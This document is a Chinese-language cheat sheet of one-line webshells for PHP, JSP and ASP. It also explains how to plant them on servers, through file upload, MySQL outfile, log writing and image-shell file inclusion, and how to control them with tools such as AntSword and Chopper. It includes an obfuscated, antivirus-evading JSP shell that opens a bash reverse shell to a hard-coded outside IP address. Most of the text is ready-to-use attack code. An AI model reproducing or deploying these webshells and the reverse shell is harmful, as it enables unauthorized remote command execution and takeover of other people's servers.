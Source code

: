## **0x01. 一句话木马**
PHP一句话木马
可以在目标服务器上执行PHP代码,并和客户端(如菜刀、Cknife、冰蝎、蚁剑）配合getshell，俗称小马
^
php如果没有禁用一些函数
eval(x)      5<php<7.2默认开启
assert(x)   php<7.0默认开启
```
上传.php文件：
<?php eval('system(whoami);'); ?>
<?php eval($_GET[1]); ?>


PHP5.x版本中可以使用
<script language="php">@eval($_POST["pass"])</script>

php5-7
<?php @eval($_POST['attack']);?>
<?php @eval($_POST['1']);?>
@错误不报
php5
<?php assert($_GET['1']); ?>


<?php 
error_reporting(0);//不报错
highlight_file(__FILE__);
var_dump($_REQUEST['1']);
eval($_REQUEST['1']);
 ?>
访问?1=system('ls /');

<?php echo phpinfo(); ?>
<?php system($_GET['2']);?>
```
```
jsp:
<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>

传x和i
<% if("x".equals(request.getParameter("pwd"))){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
    out.print("</pre>");
} %>


一行
<% if("x".equals(request.getParameter("pwd"))){java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");} %>

免杀
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%
    Class clazz = com.sun.org.apache.xalan.internal.utils.ObjectFactory.findProviderClass("java.lang.Run" + "time", true);
    java.lang.reflect.Method m1 = com.sun.org.glassfish.gmbal.ManagedObjectManagerFactory.getMethod(clazz, "getRun"+"time", null);
    java.lang.reflect.Method m2 = com.sun.org.glassfish.gmbal.ManagedObjectManagerFactory.getMethod(clazz, "ex"+"ec", String[].class);
    Object o = com.sun.xml.internal.bind.v2.ClassFactory.create(m1);
    new com.sun.xml.internal.ws.spi.db.MethodSetter(m2).set(o,new String[]{"/bin/sh","-c","bash -i >& /dev/tcp/121.5.169.223/39767 0>&1"});
%>
```

```
asp:
<%eval request("cmd") %>
```
aspx：<https://www.cnblogs.com/donglian1/p/13942742.html>

其他常见一句话木马：<https://www.cnblogs.com/ash-33/p/16397536.html>


^
## **0x02. 木马注入方式**

### **1**. 以文件的形式上传到服务器端
上传文件可以利用MySQL的into outfile、表单文件上传等方式上传

### **2**. 以字符串的形式上传到服务器端
通过MySQL的日志方式、shell的echo方式、命令执行、反序列化等方式写入一句话代码，可写入新文件或者已存在的页面

### **3**.图片马+文件包含漏洞
通过上传图片马，结合文件包含漏洞上传webshell;


^
## **0x03. getshell**
上传一句话木马后，找到文件上传的地址

1. 中国蚁剑
设置的入口为eval($_POST["密码"];);，必须为eval的post。
使用中国蚁剑，右击加链接，连接密码(POST参数名)
getshell
双击进行文件管理
右击可选择终端界面
蚁剑可配置代理查看每次请求包
^
2. 中国菜刀
设置的入口为assert($_GET),assert($_POST)。